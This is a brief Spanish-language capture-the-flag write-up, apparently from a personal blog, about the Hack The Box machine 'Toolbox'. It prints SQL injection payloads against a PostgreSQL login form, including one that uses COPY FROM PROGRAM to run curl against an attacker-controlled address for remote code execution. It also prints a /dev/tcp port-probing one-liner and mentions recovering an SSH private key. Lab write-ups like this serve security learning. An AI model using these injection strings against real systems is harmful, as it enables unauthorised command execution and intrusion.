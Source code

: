 ```yaml
---
title: Toolbox
date: 2022-07-31 13:25:30 +/-TTTT
categories: [HTB MACHINES, Windows]
tags: [postgresql, docker]     # TAG names should always be lowercase
---
```


Lo más relevante de esta máquina fue 

Tenemos un servicio de `postgresql` y procedemos a hacer una inyección y procedemos a hacer un RCE, el contenedor es linux por lo que usamos otra sintaxis.

```shell 
username=test'; select pg_sleep(10);-- -&password=test
username=test';+CREATE+TABLE+cmd_exec(cmd_output+text);-- -&password=test
username=test';COPY+cmd_exec+FROM+PROGRAM+'curl+10.10.16.8/test';;-- -&password=test
```

>Hay que revisar siempre que se tenga nociones que sea un contenedor si ganamos acceso a esta o a la máquina.
{: .prompt-info }

Esta máquina se uso echo para descubrir puertos abierto, con esto vimos que estaba ssh abierto
No hay mucho que ver en esta máquina, se hizo una búsqueda y se encontró una id_rsa

```shell
(echo '' > /dev/tcp/172.17.0.1/22 2>/dev/null) && echo "Puerto Abierto"
```


